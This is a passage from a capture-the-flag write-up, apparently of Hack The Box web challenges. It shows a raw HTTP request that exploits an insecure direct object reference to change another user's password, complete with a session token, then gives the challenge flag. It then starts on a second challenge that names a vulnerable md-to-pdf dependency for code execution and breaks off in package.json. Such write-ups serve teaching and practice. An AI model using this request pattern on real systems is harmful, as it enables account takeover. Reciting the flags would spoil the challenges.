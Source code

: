 After analyzing the request we found out we could change the password for another user. So we just change the `uid` 100 to 1.

```
POST /api/users/update HTTP/1.1
Host: 134.209.178.167:30580
Content-Length: 30
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36
DNT: 1
Content-Type: application/json
Accept: */*
Origin: http://134.209.178.167:30580
Referer: http://134.209.178.167:30580/settings
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,id;q=0.8
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI4OTUzNzV9.lvNoW_CXaivBSOKLbzEZOVOAsY_9yG0lZ_vfa7nU3lg
Connection: close

{"password":"123","uid":"1"}
```
![](kryptos-9.png)

after that, we just log in at `/login` and successfully obtain the **FLAG**

![](kryptos-10.png)

**HTB{x55_4nd_id0rs_ar3_fun!!}**

### BlinkerFluids (300 points)

The value of this challenge is 300 points and +800 players have solved this challenge.

![](blinker-1.png)

We're given a website with a feature for creating an invoice using markdown and exporting it to PDF.

![](blinker-2.png)

In this challenge, the author gives us a source code, we could make use of this for analyzing the source code.

At **package.json** there's a vulnerable _dependency_ to RCE

```
{
    "name": "blinker-fluids",
    "version": "1.0.0",
    "description": "",
    "main": "index.js",
    "scripts": {
        "start": "node index.js"
    },
    "keywords": [],
    "author": "rayhan0x01",
    "license": "ISC",
    "dependencies": {
        "express": "4.17.3",
        "md-to-pdf": "4.1.0",
        "nunjucks": "3.2.3",
        "sqlite-async": "1.1.3",
        "uuid": "8.3.2"
    },
    "devDependencies": {
```